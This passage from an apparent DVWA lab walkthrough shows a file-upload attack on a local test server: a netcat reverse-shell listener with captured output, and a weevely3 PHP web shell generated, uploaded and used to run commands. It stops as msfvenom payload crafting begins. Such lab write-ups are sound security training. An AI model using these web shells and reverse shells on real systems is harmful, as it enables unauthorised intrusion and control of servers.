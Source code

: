 5. Check listener:

    ```shell
    nc -lvnp 9999
    listening on [any] 9999 ...
    connect to [127.0.0.1] from (UNKNOWN) [127.0.0.1] 39452
    Linux CSpanias 5.15.133.1-microsoft-standard-WSL2 #1 SMP Thu Oct 5 21:02:42 UTC 2023 x86_64 GNU/Linux
    08:37:32 up 59 min,  1 user,  load average: 0.00, 0.02, 0.04
    USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
    kali     pts/1    -                07:37   59:46   0.00s   ?    -bash
    uid=149(_dvwa) gid=156(_dvwa) groups=156(_dvwa)
    /bin/sh: 0: can't access tty; job control turned off
    $
    ```

> If this was a remote webserver, and not hosted on our PC, we would gain access to the actual webserver where we could further enumerate the network, pivot, or perform privilege escalation.

### Weevely3

We can also use [`weevely3`](https://github.com/epinna/weevely3) to get a reverse shell.

1. Generate the shell:

    ```shell
    ./weevely.py generate test123 ~/dvwa/weevely.php
    Generated '/home/kali/dvwa/weevely.php' with password 'test123' of 688 byte size.
    ```

2. Upload it to the webserver:

    ![](weevely_upload.png){: width='75%'}

3. Call it through the terminal:

    ```shell
     sudo /opt/weevely3/weevely.py http://127.0.0.1:42001/hackable/uploads/weevely.php test123
    [+] weevely 4.0.1

    [+] Target:     127.0.0.1:42001
    [+] Session:    /root/.weevely/sessions/127.0.0.1/weevely_0.session

    [+] Browse the filesystem or execute commands starts the connection
    [+] to the target. Type :help for more information.

    weevely> ls
    dvwa_email.png
    php-reverse-shell.php
    php-reverse-shell.php.png
    weevely.php
    ```

### MSFVenom

1. We can also craft our own payload with `msfvenom`:
